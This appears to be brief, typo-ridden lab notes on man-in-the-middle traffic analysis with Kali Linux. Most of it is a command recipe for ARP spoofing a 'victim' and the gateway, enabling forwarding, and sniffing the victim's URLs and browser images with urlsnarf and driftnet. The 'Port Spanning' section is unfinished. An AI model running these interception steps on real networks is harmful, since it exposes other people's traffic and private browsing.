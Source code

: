 # Man-In-The-Middle attacks
We are analysising network traffic of specific devices using a few known methods. For all methods mentioned both the device being analyized and the analylisis tool are both on the same network preferablely both wired and on an isolated network. The tool is going to be a kali linux computer.

**Arp spoofing**
Follow the following commands.

Check you defualt gateway
`ip route`

Scan your network
`nmap -sP <YOUR_SUBNET>192.168.1.0/24`
-r is for range

Arpspoofing
`arpspoof -i <YOUR INTERFACE>eth0 -t <victim IP> -r <defualt gateway>`
`arpspoof -i <YOUR INTERFACE>eth0 -t <defualt gateway> -r <victim IP>`

ip forwarding
`echo 1 > /proc/sys/net/ipv4/ip_forward`

checking packet capture
`urlsnarf -i eth0` 
Victim http traffic will populate in output

`driftnet -i eth0`
Victim images in thier brower is displayed

After you confirm you are connected up, run wireshark to create your capture.

**Port Spanning
This will work for most cisco switched.
inetsim


## Wireshark filters
!dns.qry.name contains "openwrt.pool.ntp.org" and ip.src==10.0.0.2

